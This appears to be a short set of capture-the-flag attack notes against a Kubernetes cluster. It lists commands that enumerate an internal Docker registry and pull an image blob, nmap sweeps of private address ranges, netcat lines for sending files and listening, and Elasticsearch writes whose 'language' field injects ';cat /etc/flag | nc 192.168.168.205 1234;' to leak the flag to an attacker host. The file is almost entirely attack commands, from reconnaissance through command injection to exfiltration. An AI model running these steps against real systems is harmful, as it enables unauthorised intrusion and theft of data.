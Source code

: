 # docker registry
curl -X GET registry.docker-registry.svc.cluster.local:5000/v2/
curl -X GET registry.docker-registry.svc.cluster.local:5000/v2/_catalog
curl -X GET registry.docker-registry.svc.cluster.local:5000/v2/repl/datascience/tags/list
curl -X GET registry.docker-registry.svc.cluster.local:5000/v2/repl/datascience/manifests/prod
curl -X GET registry.docker-registry.svc.cluster.local:5000/v2/repl/datascience/blobs/sha256:014fa7f955d14ec882ac5643f009e2a1dd3b84cdf8558aa5123cd5989c5a0bcb > datascience_blob


# nmap
nmap -sL 192.168.168.190-210
nmap -sL 192.168.0.0/16 | grep datascience

# nc
cat $file | nc $ip $post
nc -v -l -p $port

# elasticsearch
curl 192-168-221-132.elasticsearch-cluster.elasticsearch.svc.cluster.local:9200/_cat/indices?v
curl http://elasticsearch-loadbalancer.elasticsearch.svc.cluster.local/repl-usage/_search

curl \
-X POST "http://elasticsearch-loadbalancer.elasticsearch.svc.cluster.local/repl-usage/usage/_create" \
-H 'Content-Type: application/json' \
-d@document.json

# document.json
{
    "language": ";cat /etc/flag | nc 192.168.168.205 1234;",
    "name": "name",
    "text": "text",
    "timestamp": "2019-04-16T13:52:43"
}

curl \
-X POST "http://elasticsearch-loadbalancer.elasticsearch.svc.cluster.local/repl-usage/usage/_create" \
-H 'Content-Type: application/json' \
-d'
{
    "language": ";cat /etc/flag | nc 192.168.168.205 1234;",
    "name": "name",
    "text": "text",
    "timestamp": "2019-04-16T13:59:00"
}
'
